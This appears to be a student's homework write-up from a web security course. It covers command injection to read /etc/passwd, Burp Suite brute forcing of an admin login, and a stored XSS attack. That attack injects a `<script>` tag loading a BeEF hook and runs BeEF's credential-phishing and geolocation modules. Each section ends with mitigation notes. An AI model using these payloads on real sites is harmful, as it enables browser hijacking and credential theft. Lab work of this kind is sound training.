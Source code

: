 # Unit 15 Homework - Web-Vulnerabilities and Hardening

## Web Apllication #1
### Command Injection
#### Exploit
Using the dwva, use command injection to view the passwd and hosts file in /etc

![etc/passwd](Images/etc-passwd.PNG)
![etc/hosts](Images/etc-hosts.PNG)

#### Mitigation
The best way to avoid this vulnerability is to not allow the execution of OS commands. However, when this is not possible, properly configured server side input validation will deny access to this vulnerability.

## Web Apllication #2
### Brute Force

#### Investigation
Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

![brute-force](Images/Brute-force.PNG)

`user: tonystark`
`Password: "I am Iron Man"`

#### Mitigation
There are a number of mitigation methods to prevent brute force attacks, depending on what type of asset you are trying to defend. Two common and very effective methods are multi-factor authentication, and to lock the account after x number of failed attempts. Another possible method to prevent a brute force attack without locking the account to it's rightful owner is to prevent further attempts based on an IP address after x failed attempts, however this could easily be bypassed if the attacker is using a botnet with many ip addresses for it's bots.

## Web Application #3
### Where's the BeEF?

#### Exploit
 You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      ![xss-post](Images/xss-post-script.PNG)
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
   ![Petty theft](Images/xxs-facebook.PNG)
   ![BeEF facebook credentials](Images/xxs-BeEF-facebook.PNG)

     
     - Social Engineering >> Fake Notification Bar
     ![xss fake notification bar](Images/xxs-popup.PNG)
     ![BeEF confirmation of fake notification bar](Images/xxs-BeEF-popup.PNG)
     
     - Host >> Get Geolocation (Third Party)
     ![BeEF GeoLocation](Images/xxs-BeEF-GeoLocation.PNG)
     
#### Mitigation
To mitigate against xss attacks, all user input should be cleansed through the use of escaping, filtering and validation. This can be done on the client side, and **should always** be done on the server side as client side strategies won't be effective against the use of a terminal window to access your website using commands such as cURL.